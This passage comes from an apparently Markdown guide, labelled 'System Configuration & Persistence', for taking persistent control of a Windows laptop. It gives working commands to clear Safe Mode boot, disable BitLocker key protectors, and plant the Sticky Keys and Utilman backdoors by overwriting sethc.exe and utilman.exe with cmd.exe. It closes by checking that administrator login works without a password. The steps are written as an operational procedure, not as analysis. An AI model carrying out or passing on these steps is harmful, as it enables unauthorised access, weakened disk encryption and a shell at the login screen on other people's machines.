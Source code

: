 ### **Step 4.3: Handle Safe Mode Boot**
```
If laptop boots to Safe Mode automatically:
1. Accept Safe Mode access
2. Open PowerShell as Administrator
3. Proceed to disable safe mode (next steps)
```

---

## 🔧 **PHASE 5: SYSTEM CONFIGURATION & PERSISTENCE**

### **Step 5.1: Disable Safe Mode Boot**
```powershell
# From Administrator PowerShell (if in safe mode)
cmd /c "bcdedit /deletevalue {current} safeboot"

# Verify operation completed successfully
# Expected output: "The operation completed successfully"
```

### **Step 5.2: Disable BitLocker Protection**
```powershell
# Check current BitLocker status
cmd /c "manage-bde -status C:"

# Disable BitLocker protectors to prevent key prompts
cmd /c "manage-bde -protectors -disable C:"

# Expected output: "Key protectors are disabled for volume C:"
```

### **Step 5.3: Install Sticky Keys Backdoor**
```powershell
# Navigate to System32 and backup original files
cmd /c "cd C:\Windows\System32 && copy sethc.exe sethc.exe.backup && copy cmd.exe sethc.exe"

# Expected output: "1 file(s) copied" (some access denied normal)

# Alternative backdoor - Utilman.exe
cmd /c "cd C:\Windows\System32 && copy utilman.exe utilman.exe.backup && copy cmd.exe utilman.exe"
```

### **Step 5.4: Test Configuration Changes**
```powershell
# Restart the laptop to test changes
shutdown /r /t 0

# After restart, verify:
# 1. Boots to normal Windows (not safe mode)
# 2. No BitLocker key prompt appears
# 3. Administrator login works without password
```

---